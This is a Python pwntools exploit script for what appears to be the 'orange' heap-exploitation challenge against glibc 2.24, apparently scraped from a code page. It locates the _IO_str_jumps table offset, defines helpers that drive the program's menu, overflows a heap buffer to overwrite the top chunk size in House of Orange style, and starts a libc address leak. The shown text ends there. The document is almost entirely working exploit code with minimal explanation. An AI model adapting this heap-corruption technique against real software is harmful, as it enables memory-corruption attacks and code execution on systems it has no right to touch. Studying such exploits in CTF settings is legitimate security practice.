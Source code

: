 ### EXP-libc2.24

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
#context(os='linux', arch='amd64', log_level='debug')

env = {}
env = {'LD_PRELOAD' : './libc-2.24.so'}
io = process('./orange', env=env)

elf = ELF('./orange')
libc = ELF('libc-2.24.so')

IO_file_jumps_offset = libc.sym['_IO_file_jumps']
IO_str_underflow_offset = libc.sym['_IO_str_underflow']
for ref_offset in libc.search(p64(IO_str_underflow_offset)):
    possible_IO_str_jumps_offset = ref_offset - 0x20
    if possible_IO_str_jumps_offset > IO_file_jumps_offset:
        print possible_IO_str_jumps_offset
        break

def build(Length,Name,Price,Choice):
    io.recvuntil('Your choice : ')
    io.sendline(str(1))
    io.recvuntil('name :')
    io.sendline(str(Length))
    io.recvuntil('Name :')
    io.send(Name)
    io.recvuntil('Orange:')
    io.sendline(str(Price))
    io.recvuntil('Color of Orange:')
    io.sendline(str(Choice))

def see():
    io.recvuntil('Your choice : ')
    io.sendline(str(2))

def upgrade(Length,Name,Price,Choice):
    io.recvuntil('Your choice : ')
    io.sendline(str(3))
    io.recvuntil('name :')
    io.sendline(str(Length))
    io.recvuntil('Name:')
    io.send(Name)
    io.recvuntil('Orange: ')
    io.sendline(str(Price))
    io.recvuntil('Color of Orange: ')
    io.sendline(str(Choice))



#OverWrite TopChunk
build(0x80,'AAAA',1,1)
upgrade(0x100,'B'*0x80+p64(0)+p64(0x21)+p32(0)+p32(0)+2*p64(0)+p64(0xf31),2,2)

#TopChunk->unsorted bin
build(0x1000,'CCCC',3,3)

#leak libc_base 
build(0x400,'D'*8,4,4)
```